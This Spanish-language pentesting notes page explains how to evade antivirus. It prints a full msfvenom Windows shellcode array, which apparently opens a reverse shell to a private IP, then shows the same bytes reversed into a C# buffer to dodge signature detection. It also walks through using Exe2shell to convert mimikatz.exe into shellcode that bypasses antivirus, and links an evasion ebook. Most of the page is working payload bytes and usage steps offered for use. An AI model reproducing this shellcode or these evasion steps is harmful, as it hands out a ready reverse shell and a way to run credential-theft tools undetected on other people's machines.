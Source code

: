 ```yaml
---
icon: star-of-david
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Otras técnicas de evasión con C

Lo que podemos hacer con el `payload` que nos proporciono `msfvenom` es darle la vuelta directamente para que asi tampoco nos lo detecte los antivirus con una pagina:

```
0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x8b,0x72,0x28,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x01,0xd0,0x8b,0x48,0x18,0x8b,0x58,0x20,0x50,0x01,0xd3,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0x05,0xcd,0x68,0x02,0x00,0x1e,0x61,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5
```

Lo ponemos todo en una `onle line` y se lo pasamos a la siguiente pagina:

URL = [Reverse Byte Array Payload](https://yupana-engineering.com/online-reverse-byte-array)

Nos quedaria algo tal que asi implementado con la variable para el codigo:

```cs
byte[] buf = new byte[354] {0xd5, 0xff, 0x53, 0x00, 0x6a, 0x56, 0xa2, 0xb5, 0xf0, 0xbb, 0xc3, 0xc1, 0x75, 0xc6, 0x29, 0xc3, 0x01, 0xff, 0xff, 0xff, 0x9b, 0xe9, 0xff, 0xff, 0xff, 0x70, 0x85, 0x0f, 0x24, 0x0c, 0xff, 0x5e, 0x5e, 0xd5, 0xff, 0x61, 0x4d, 0x6e, 0x75, 0x68, 0x57, 0xd5, 0xff, 0x30, 0x0f, 0x2f, 0x0b, 0x68, 0x50, 0x00, 0x6a, 0x00, 0x00, 0x40, 0x00, 0x68, 0x58, 0x28, 0x7d, 0x00, 0xf8, 0x83, 0xd5, 0xff, 0x5f, 0xc8, 0xd9, 0x02, 0x68, 0x57, 0x53, 0x56, 0x00, 0x6a, 0x53, 0x93, 0xd5, 0xff, 0xe5, 0x53, 0xa4, 0x58, 0x68, 0x00, 0x6a, 0x56, 0x00, 0x00, 0x10, 0x00, 0x68, 0x40, 0x6a, 0x36, 0x8b, 0x36, 0x7e, 0x00, 0xf8, 0x83, 0xd5, 0xff, 0x5f, 0xc8, 0xd9, 0x02, 0x68, 0x57, 0x56, 0x04, 0x6a, 0x00, 0x6a, 0x00, 0x00, 0x00, 0x67, 0xe8, 0xec, 0x75, 0x08, 0x4e, 0xff, 0x0a, 0x74, 0xc0, 0x85, 0xd5, 0xff, 0x61, 0x74, 0xa5, 0x99, 0x68, 0x57, 0x56, 0x10, 0x6a, 0x97, 0xd5, 0xff, 0xe0, 0xdf, 0x0f, 0xea, 0x68, 0x50, 0x40, 0x50, 0x40, 0x50, 0x50, 0x50, 0x50, 0xe6, 0x89, 0x61, 0x1e, 0x00, 0x02, 0x68, 0xcd, 0x05, 0xa8, 0xc0, 0x68, 0x0a, 0x6a, 0xd5, 0xff, 0x00, 0x6b, 0x80, 0x29, 0x68, 0x50, 0x54, 0xc4, 0x29, 0x00, 0x00, 0x01, 0x90, 0xb8, 0xd0, 0xff, 0xe8, 0x89, 0x07, 0x26, 0x77, 0x4c, 0x68, 0x54, 0x5f, 0x32, 0x73, 0x77, 0x68, 0x00, 0x00, 0x32, 0x33, 0x68, 0x5d, 0xff, 0xff, 0xff, 0x80, 0xe9, 0x12, 0x8b, 0x5a, 0x5f, 0x58, 0xe0, 0xff, 0x51, 0x5a, 0x59, 0x61, 0x5b, 0x5b, 0x24, 0x24, 0x44, 0x89, 0xd0, 0x01, 0x8b, 0x04, 0x8b, 0xd3, 0x01, 0x1c, 0x58, 0x8b, 0x4b, 0x0c, 0x8b, 0x66, 0xd3, 0x01, 0x24, 0x58, 0x8b, 0x58, 0xe0, 0x75, 0x24, 0x7d, 0x3b, 0xf8, 0x7d, 0x03, 0xf4, 0x75, 0xe0, 0x38, 0xc7, 0x01, 0x0d, 0xcf, 0xc1, 0xac, 0xc0, 0x31, 0xd6, 0x01, 0x8b, 0x34, 0x8b, 0xff, 0x31, 0x49, 0x3c, 0x74, 0xc9, 0x85, 0xd3, 0x01, 0x50, 0x20, 0x58, 0x8b, 0x18, 0x48, 0x8b, 0xd0, 0x01, 0x4c, 0x74, 0xc0, 0x85, 0x78, 0x40, 0x8b, 0xd0, 0x01, 0x3c, 0x42, 0x8b, 0x10, 0x52, 0x8b, 0x57, 0x52, 0xef, 0x75, 0x49, 0xc7, 0x01, 0x0d, 0xcf, 0xc1, 0x20, 0x2c, 0x02, 0x7c, 0x61, 0x3c, 0xac, 0xc0, 0x31, 0x28, 0x72, 0x8b, 0xff, 0x31, 0x26, 0x4a, 0xb7, 0x0f, 0x14, 0x52, 0x8b, 0x0c, 0x52, 0x8b, 0x30, 0x52, 0x8b, 0x64, 0xe5, 0x89, 0xd2, 0x31, 0x60, 0x00, 0x00, 0x00, 0x8f, 0xe8, 0xfc};
```

Tambien tenemos otra herramienta en la que podemos realizar una `shell` sin que el antivirus lo detecte en el siguiente repositorio:

URL = [Exe2shell GitHub](https://github.com/daVinci13/Exe2shell)

Nos tendremos que clonar el repositorio de `GitHub` de la siguiente forma:

```shell
git clone https://github.com/daVinci13/Exe2shell.git
cd Exe2shell/
```

Si yo por ejemplo quiero utilizar la misma tecnica de `C#` pero para evadir la deteccion de la herramienta `mimikatz` podremos realizar lo siguiente, donde este el ejecutable `mimikatz` copiaremos el `.py` de la siguiente forma:

```shell
cp exe2shell.py ../
```

Lo que hace ese `.py` es que me transforma en un `shellcode` el binario `mimikatz.exe` para que luego pueda insertarlo en mi binario que he creado y se pueda ejecutar el `mimikatz.exe` sin ningun problema `bypasseando` la firma del binario.

```shell
python3 exe2shell.py mimikatz.exe > shell.txt
```

Con esto nos generara todos los `bytes` del `mimikatz` para que pueda ser ejecutado, y ya con esto podriamos convertirlo a un `string` como hicimos anteriormente para que se pueda ejecutar sin ningun problema y realizar las modificaciones necesarias como hicimos anteriormente.

Hay una pagina muy buena que explica todo esto de evasion de antivirus de muchisimas formas diferentes que es la siguiente:

URL = [Bypassing avs by csharp Pagina](https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/index.htm?page=Chapter%2013.html)

En esta pagina como ya comente engloba todo lo que podemos realizar con este `C#` para `Bypassear` practicamente casi cualquier antivirus o herramientas de seguridad y hacer lo que queramos dentro de un equipo.
